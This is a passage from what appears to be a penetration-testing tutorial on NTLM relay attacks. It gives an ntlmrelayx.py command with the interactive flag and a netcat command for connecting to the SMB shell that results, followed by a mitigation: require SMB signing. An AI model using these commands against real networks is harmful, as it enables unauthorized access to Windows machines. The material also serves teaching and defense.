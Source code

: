 We can gain a shell with the same manner above except this time we speciy the `-i` switch in ntlmrelayx.py.

```
sudo python ntlmrelayx.py -t 192.168.64.129 -smb2support -i
```

When we get a successful authentication message in ntlmrelayx.py we will need to open a netcat bind shell on the localhost and port specified in the ntlmrelayx.py output.

![](<../../../.gitbook/assets/image (1527) (1).png>)

Start netcat with a localhost address and the port specified in the output above.

```
nc 127.0.0.1 <port>
```

![](<../../../.gitbook/assets/image (1528).png>)

{% hint style="info" %}
Use the 'help' command once inside the SMB interactive shell to view more options
{% endhint %}

## Mitigations

### Enable SMB Signing

This attack can be mitigated by creating a group policy for signing to be required on all network machines.
